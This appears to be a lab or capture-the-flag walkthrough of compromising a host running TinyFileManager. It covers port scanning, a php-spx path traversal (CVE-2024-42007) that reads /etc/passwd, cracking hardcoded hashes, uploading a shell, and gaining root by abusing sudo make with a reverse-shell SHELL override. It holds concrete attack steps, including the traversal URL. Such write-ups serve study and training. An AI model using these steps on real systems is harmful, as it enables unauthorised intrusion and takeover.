## IP: 192.168.152.108

# Information Gathering

## Port Scan
```bash
nmap -sVC --min-rate 5000 -oN nmap.out 192.168.152.108
```
**Open ports:**
- 22/tcp open ssh (OpenSSH 8.x)
- 80/tcp open http (TinyFileManager)

## Web Enumeration
- **Nikto scan**:
  ```bash
  nikto -h http://192.168.152.108
  ```
  - Discovered `/phpinfo.php`.

---

# Enumeration

## TinyFileManager (port 80)
- Default paths and credentials `admin/admin@123`, `user/12345` failed.
- Accessed `http://192.168.152.108/phpinfo.php` to extract SPX key.

## Path Traversal
- Vulnerability: **CVE-2024-42007** in `php-spx`.
- Modified POC `dev` key to actual SPX key.
- Traversal URL:
  ```
  http://192.168.152.108/?spx_key=REAL_KEY&file=../../../../etc/passwd
  ```
- Read `/etc/passwd`, identified user `profiler`.

## Source Download & Hash Cracking
- Located `index.php` source containing hardcoded hash credentials.
- Downloaded via `wget` and cracked:
  - `user` hash → valid user shell restricted functionality.
  - `admin` hash → uploaded shell.

---

# Privilege Escalation

## Sudo Permissions
```bash
profiler@spx$ sudo -l
# Allowed: (root) NOPASSWD: /usr/bin/make
```

## Makefile Abuse
- The target directory contained a `Makefile` with:
  ```makefile
  SHELL=/bin/sh
  ```
- Replaced `SHELL` with a reverse shell script in `/tmp`.
- Ran:
  ```bash
  sudo make -C /path/to/dir
  ```
- Received root shell.

